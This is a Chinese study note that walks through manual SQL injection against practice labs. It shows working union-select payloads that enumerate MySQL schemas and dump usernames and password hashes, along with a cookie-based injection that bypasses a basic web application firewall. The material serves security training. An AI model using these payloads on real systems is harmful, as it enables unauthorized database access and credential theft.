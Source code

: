 ### SQL注入

#### 墨者学院靶场[SQL手工注入漏洞测试(MySQL数据库)](https://www.mozhe.cn/bug/detail/elRHc1BCd2VIckQxbjduMG9BVCtkZz09bW96aGUmozhe)
1. 第一步: 查看是否存在注入点 
    `and 1=1` 可以打开
    `id=1 and 1=2` 不能打开
    `id=1 西瓜` 不能打开
1. 第二步: 查看列数量
    `id=1 order by X` X从1不断往上递加直到网页不能正常显示,此题目最大值为4,说明为4列
1. 第三步: 报错查看列名情况
    `id=-1 union select 1,2,3,4` 显示为2,3
1. 第四步: 
    - 从2,3查询, 查看版本, 数据库等信息
    `id=-1 union select 1,version(),database(),4` 此题结果, 版本:`version() = 5.7.22-0ubuntu0.16.04.1` 数据库: `database()=mozhe_Discuz_StormGroup`
    - 查询表名:
    `id=-1 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='mozhe_Discuz_StormGroup'` 表名结果:`StormGroup_member,notice` 对此题来说,是`StormGroup_member`
    - 查询列名:
    `id=-1 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='StormGroup_member'` 列名结果: `id,name,password,status`
1. 第五步: 查询数据
    `id=-1 union select 1,name,password,4 from StormGroup_member limit 1,1`
    结果`name=mozhe` | `password=861de5d5f0a8128d0fab489996355994`
6.第六步:MD5解密
    name:mozhe 
    password:874769


#### 题目总结

1. 判定注入点
1. 查看列数量
1. 通过报错注入配合页面查看数据回显
1. 通过union联合查询拿到数据库版本,数据库名,表名,列名等信息
1. 查询出数据


#### 封神台SQL注入靶场1

基本步骤同墨者学院靶场 

**不同之处:**
- 使用`union`联合查询前, 不是用`id=-1`去过滤掉结果集, 后台应该有对id不存在时做了处理, 此时, 使用`id=1 and id=2`去`union`新的结果集, 过滤掉前面的结果

例:`id=1 and id=2 union select 1,group_concat(table_name) from information_schema.tables where table_schema='maoshe'`

![数据库名称查询结果](https://study-note-huang.oss-cn-beijing.aliyuncs.com/img/2021-08-07-14-32-44.png)

#### 封神台SQL注入靶场2

此靶场存在基础的WAF(WEB应用防火墙)

**特点:**
- 使用`id=-1`和`id=1 and id=2`都报错, 这里无法触发注入
- 直接`order by 10`查询出有10个字段
- 猜测存在表名字为`admin`的表,当我们使用`union select 1,2,3,4,5,6,7,8,9,10 from admin`时, 出现报错, 说明存在一定的WAF
![报错内容](https://study-note-huang.oss-cn-beijing.aliyuncs.com/img/2021-08-08-01-20-58.png)
- **关键:** 尝试将注入语句放到cookie中, 再发送给服务器, 因为网页防护一般只拦截Get、post传参. 这里用到了[ModHeader插件(新edge版本)](https://microsoftedge.microsoft.com/addons/detail/modheader/opgbiafapkbbnbnjcdomjaghbckfkglc?hl=zh-CN)(不喜欢用edge的也可以去找chrome版本)
- 点击加号, 键入`Cookie`, `id=171`, 再将浏览器url中的参数删除
![ModHeader](https://study-note-huang.oss-cn-beijing.aliyuncs.com/img/2021-08-08-01-31-17.png)
![删除参数](https://study-note-huang.oss-cn-beijing.aliyuncs.com/img/2021-08-08-01-32-08.png)
- 发现能正常执行, 说明存在cookie注入
![执行结果](https://study-note-huang.oss-cn-beijing.aliyuncs.com/img/2021-08-08-01-39-24.png)
- 这次在cookie中传入我们的注入语句, `id=171+union+select+1,2,3,4,5,6,7,8,9,10+from+admin`, 使用+代替空格, 否则报错, 原因**可能是后台进行了一次解码, 解码后`+`会变成空格**
![注入结果](https://study-note-huang.oss-cn-beijing.aliyuncs.com/img/2021-08-08-01-41-51.png)
- 尝试查询`admin`表中最常见的字段`username`, `password`, `id=171+union+select+1,username,password,4,5,6,7,8,9,10+from+admin`, 拿到账户密码 